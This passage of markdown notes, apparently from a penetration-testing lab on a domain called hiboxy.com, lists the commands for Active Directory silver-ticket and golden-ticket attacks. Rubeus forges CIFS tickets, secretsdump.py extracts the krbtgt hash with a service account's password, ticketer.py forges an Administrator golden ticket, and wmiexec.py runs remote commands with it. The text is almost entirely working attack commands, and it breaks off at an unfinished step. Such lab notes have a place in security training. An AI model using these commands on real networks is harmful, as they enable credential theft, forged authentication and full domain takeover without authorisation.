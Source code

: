     C:\Tools\Rubeus.exe silver /service:cifs/file01.hiboxy.com /rc4:REDACTED_32768ffb592bbf94774b40 /sid:S-1-5-21-XXXXXXXXXX-YYYYYYYYYY-ZZZZZZZZZZ /ptt /user:bgreen
    ```
    * try to access the file server
    ```
    dir \\file01.hiboxy.com\c$
    ```
### A Second Forged Ticket
* windows
    * delete the ticket from memory
    ```
    klist purge
    ```
    * modify the ticket
    ```
    C:\Tools\Rubeus.exe silver /service:cifs/file01.hiboxy.com /rc4:REDACTED_32768ffb592bbf94774b40 /sid:S-1-5-21-XXXXXXXXXX-YYYYYYYYYY-ZZZZZZZZZZ /ptt /user:pwned /id:777
    dir \\file01.hiboxy.com\c$
    ```


## Golden Ticket
### Extract secrets of the krbtgt account
* linux 
    * use a secretsdump.py
    ```
    secretsdump.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 -just-dc-user krbtgt
    ```

### Retrieve domain information to create the golden ticket
* linux 
    * get a name of the domain FQDN
    ```
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 ipconfig /all
    ```
    * get a domain SID
    ```
    lookupsid.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 520
    ```

### Create a golden ticket
* linux
    * use a ticketer.py
    ```
    ticketer.py -domain hiboxy.com -domain-sid S-1-5-21-XXXXXXXXXX-YYYYYYYYYY-ZZZZZZZZZZ -nthash REPLACE_THIS_99e7a0d12fd085d9583 Administrator
    ```

### Using the Golden Ticket
* linux
    * impacket suite
    ```
    export KRB5CCNAME=Administrator.ccache
    ```
    * use the ticket to access the other host
    ```
    export KRB5CCNAME=Administrator.ccache
    wmiexec.py -k -no-pass -dc-ip 10.130.10.4 file01.hiboxy.com hostname
    ```
    * forged a fake user
    ```
